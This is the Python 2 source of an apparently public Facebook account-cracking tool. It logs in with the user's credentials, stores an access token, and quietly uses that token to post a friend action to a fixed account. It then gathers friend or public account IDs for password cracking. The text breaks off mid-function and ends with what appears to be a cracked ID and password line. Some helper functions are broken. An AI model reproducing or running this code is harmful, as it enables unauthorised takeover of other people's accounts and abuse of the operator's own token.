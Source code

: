 #!/usr/bin/python2
#coding=utf-8


import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]


def keluar():
	print "\033[1;96m[!] \x1b[1;91mExit"
	os.sys.exit()


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)


##### LOGO #####
logo = """ -----------------------------•◈•
(  __)\\ ____--------------_------------•◈•
|__(~)    •||•THE - AAHIL -OFFICAL------•◈•
|__\~~) •||•RANA - RAJPUT---------------•◈•
|__(-----\  •◈•------BLACK-TIGER--------•◈•
|__~~~\ •◈•-----█-------⑦-------█------•◈•
|__~~~\ •◈•-----█-------⑧-------█------•◈•
|__~~~\ •◈•-----█-------⑥-------█------•◈•
\033[1;91m=======================================
\033[1;96mAuthor  \033[1;93m: \033[1;92mRana Aahil
\033[1;96mInstagram \033[1;93m: \033[1;FlowRana
\033[1;96mFacebook  \033[1;93m: \033[1; Aahilrna4072
\033[1;96mGithub \033[1;93m: \033[1;92mhttps://github.com/Therana/zero
\033[1;91m======================================="""

def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[●] \x1b[1;93mSedang masuk \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1)


back = 0
berhasil = []
cekpoint = []
oks = []
id = []
listgrup = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

os.system("clear")
print "\033[1;96m ============================================================="
print  """\033[1;91m=======================================
\033[1;96mAuthor  \033[1;93m: \033[1;92mRana Aahil
\033[1;96mInstagram \033[1;93m: \033[1;92mFlowRana
\033[1;96mFacebook  \033[1;93m: \033[1;92m Aahilrana4072
\033[1;96mGithub \033[1;93m: \033[1;92mhttps://Github.com/Therana/zero
\033[1;91m======================================="""
print " \x1b[1;93m============================================================="

CorrectUsername = "rana"
CorrectPassword = "rana"

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;96m[☆] \x1b[1;93mUsername Of Tool \x1b[1;96m>>>> ")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;96m[☆] \x1b[1;93mPassword Of Tool \x1b[1;96m>>>> ")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username
            loop = 'false'
        else:
            print "Wrong Password"
            os.system('xdg-open https://www.Youtube.com/UCsdJQbRf0xpvwaDu1rqgJuA')
    else:
        print "Wrong Username"
        os.system('xdg-open https://www.Youtube.com/UCsdJQbRf0xpvwaDu1rqgJuA')

def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		print('\033[1;96m[☆] \x1b[1;93mLOGIN WITH FACEBOOK \x1b[1;96m[☆]' )
		id = raw_input('\033[1;96m[+] \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m')
		pwd = raw_input('\033[1;96m[+] \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\033[1;96m[!] \x1b[1;91mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m[✓] \x1b[1;92mLogin Successful'
				os.system('xdg-open https://www.Facebook.com/Omi6t')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m[!] \x1b[1;91mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m[!] \x1b[1;91mIt seems that your account has a checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m[!] \x1b[1;91mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;96m[!] \033[1;91mIt seems that your account has a checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\033[1;96m[!] \x1b[1;91mThere is no internet connection"
		keluar()
	os.system("clear")
	print logo
	print 42*"\033[1;96m="
	print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m Name \033[1;91m: \033[1;92m"+nama+"\033[1;97m               "
	print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Start Hacking"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Exit            "
	pilih()


def pilih():
	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
	if unikers =="":
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih()


def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"
	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"
	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97m >>> \033[1;97m")
	if peak =="":
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		jalan('\033[1;96m[✺] \033[1;93mGetting ID \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		idt = raw_input("\033[1;96m[+] \033[1;93mEnter ID \033[1;91m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;93mName\033[1;91m :\033[1;97m "+op["name"]
		except KeyError:
			print"\033[1;96m[!] \x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		jalan('\033[1;96m[✺] \033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		try:
			idlist = raw_input('\x1b[1;96m[+] \x1b[1;93mEnter File Path  \x1b[1;91m: \x1b[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;96m[!] \x1b[1;91mFile Not Found'
			raw_input('\n\x1b[1;96m[ \x1b[1;97mBack \x1b[1;96m]')
			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;96m[+] \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))
	jalan('\033[1;96m[✺] \033[1;93mStarting \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[\033[1;97m✸\033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print('\x1b[1;96m[!] \x1b[1;93mTo Stop Process Press CTRL Then Press z')
	print 42*"\033[1;96m="
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
  [ok] +100052442540615 pass king00
